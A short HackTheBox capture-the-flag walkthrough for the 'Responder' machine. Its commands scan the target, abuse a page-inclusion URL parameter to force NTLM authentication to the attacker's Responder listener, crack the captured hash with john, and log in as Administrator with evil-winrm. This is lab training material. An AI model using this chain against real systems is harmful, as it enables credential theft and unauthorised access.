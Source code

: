 ![[Responder.png]]
#HackTheBox #Starting-point #VeryEasy 
## Scan Port
```bash
nmap -sV {TARGET IP} -T4
```
The result is `80/tcp` service of `http`
## Connect to Responder
### Step 1
Open your browser, paste the `TARGET IP`. The result is unable to connect, because we should add host of `TARGET IP`.
Let go back to terminal, edit `hosts` with `sudo nano`(`/etc/hosts`)
```bash
sudo nano /etc/hosts
```
Add the `TARGET IP` and the domain name target
```note
{TARGET IP}  {DOMAIN NAME}
```
Open your browser again, paste `TARGET IP`. Tadaa... can connect to http/website.
let's try to change language and what's different than before (From EN to FR/DE)
Yesss!! You can see?! URL!!! From `DOMAIN NAME` to `DOMAIN NAME/...?page=french.html`
Okay, next we will connect it to the responder with python3. Besause we will use python3, we can use `Responder.py`, location responder.py in `/usr/share/responder`.
```bash
python3 /usr/share/responder/Responder.py -I tun0
```
`-I` for Interface
`tun0` is My IP Address with vpn
Open your browser again, let's try change the url to `DOMAIN NAME/...?page=//{MY IP}`. Let's check the responder, there are results, right? copy the `hash`, then put them in a new file (ex : hash.txt)
After that, we pass the hash file to john and crack the password for the Administrator Account.
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt {hash.txt}
```
The result is the password for the Administrator Account.
### Step 2
We will connect to WinRM, because PowerShell isn't installed on Linux, we can use tool `evil-winrm`
```bash
evil-winrm -i {TARGET IP} -u {username} -p {password}
```
Find the flag in user Mike. Congratulations!!😁👍